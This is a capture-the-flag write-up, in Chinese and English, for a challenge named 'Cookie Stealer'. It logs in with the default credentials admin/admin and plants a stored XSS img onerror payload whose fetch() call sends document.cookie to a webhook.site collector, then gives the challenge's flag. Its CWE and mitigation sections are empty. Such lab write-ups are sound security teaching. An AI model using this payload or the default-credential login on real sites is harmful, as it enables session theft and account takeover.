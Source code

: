 # Cookie Stealer

Author: 孫逸平

Date: 2024-05-24

Link: https://lotuxctf.com/challenges#Cookie%20Stealer-41

## 題目說明

我要製作一個網站偷走所有人的餅乾！

I will make a website to steal everyone's cookie!


Author：FlyDragon
http://lotuxctf.com:20005

> **Hint1:**
>
> "Share to admin" 指的是 admin 會拜訪你的網頁。
>
> "Share to admin" implies that the admin will visit your page.

> **Hint2:**
>
> The flag is admin's cookie

## Write-up

1. 利用帳號：`admin`，密碼：`admin` 登入。
2. 任意撰寫內文發送後猜測為 XSS 漏洞。
3. 利用 webhook.site 擷取 Cookie：
    ```javascript
    <img src=x onerror="fetch('https://webhook.site/YourWebhookLink/?cookie='+document.cookie)"/>
    ```
4. 在 webhook.site 中，得到 flag：`LoTuX{XSS_ch4ll3nGe_For_8abYs}`。

## 防護說明與建議

### 本題 CWE

* 

### 建議防護與修補

* 

## 心得
